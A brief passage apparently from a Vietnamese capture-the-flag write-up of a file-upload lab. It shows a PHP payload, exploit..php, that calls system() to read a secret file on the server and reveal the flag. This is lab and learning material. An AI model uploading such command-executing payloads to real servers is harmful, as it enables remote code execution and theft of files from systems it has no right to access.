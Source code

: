 ![level-2-3](images/lab-cbjs/level-2/level-2-3.png)

Để đọc được file đó em đổi lại nội dung của file `exploit..php`:

```php
<?php system("cat /1ad7e7cd851-secret.txt"); ?>
```

Tải lên file một lần nữa và truy đường dẫn tới file, em đã thấy được flag:

![level-2-4](images/lab-cbjs/level-2/level-2-4.png)
